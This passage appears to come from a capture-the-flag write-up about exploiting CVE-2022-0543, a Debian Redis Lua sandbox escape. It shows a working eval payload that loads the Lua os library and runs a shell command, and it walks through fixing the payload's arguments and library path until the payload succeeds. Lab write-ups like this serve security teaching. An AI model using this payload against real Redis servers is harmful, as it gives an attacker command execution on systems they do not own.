 `info server` shows the Redis version:

    
    
    127.0.0.1:6379> info server
    # Server
    redis_version:6.0.15
    ...[snip]...
    

#### Exploit

The researcher who discovered CVE-2022-0543 describes it well in [this
post](https://www.ubercomp.com/posts/2022-01-20_redis_on_debian_rce). It’s
actually a vulnerability in Debian where Redis is present. The proof of
concept looks like this:

    
    
    eval 'local os_l = package.loadlib("/usr/lib/x86_64-linux-gnu/liblua5.1.so", "luaopen_os"); local os = os_l(); os.execute("touch /tmp/redis_poc"); return 0'
    

Running this directly won’t work:

    
    
    127.0.0.1:6379> eval 'local os_l = package.loadlib("/usr/lib/x86_64-linux-gnu/liblua5.1.so", "luaopen_os"); local os = os_l(); os.execute("touch /tmp/redis_poc"); return 0'
    (error) ERR wrong number of arguments for 'eval' command
    

That’s because `eval` takes a minimum of two arguments, according to [the
docs](https://redis.io/commands/eval/). I’ll give it a 0, and it’s a new
error:

    
    
    127.0.0.1:6379> eval 'local os_l = package.loadlib("/usr/lib/x86_64-linux-gnu/liblua5.1.so", "luaopen_os"); local os = os_l(); os.execute("touch /tmp/redis_poc"); return 0' 0 
    (error) ERR Error running script (call to f_9dde318a677aa429bd40e6b54cf363002dda0971): @user_script:1: user_script:1: attempt to call local 'os_l' (a nil value)
    

`os_l` is a nil value. That’s where the library is loaded. Is that library
present? It turns out not:

    
    
    dan_smith@shared:~$ ls /usr/lib/x86_64-linux-gnu/liblua5.1.so
    ls: cannot access '/usr/lib/x86_64-linux-gnu/liblua5.1.so': No such file or directory
    dan_smith@shared:~$ ls /usr/lib/x86_64-linux-gnu/liblua5.1.so*
    /usr/lib/x86_64-linux-gnu/liblua5.1.so.0  /usr/lib/x86_64-linux-gnu/liblua5.1.so.0.0.0
    

But `liblua5.1.so.0` is, in the same directory. I’ll try that:

    
    
    127.0.0.1:6379> eval 'local os_l = package.loadlib("/usr/lib/x86_64-linux-gnu/liblua5.1.so.0", "luaopen_os"); local os = os_l(); os.execute("touch /tmp/redis_poc"); return 0' 0 
    (integer) 0
    
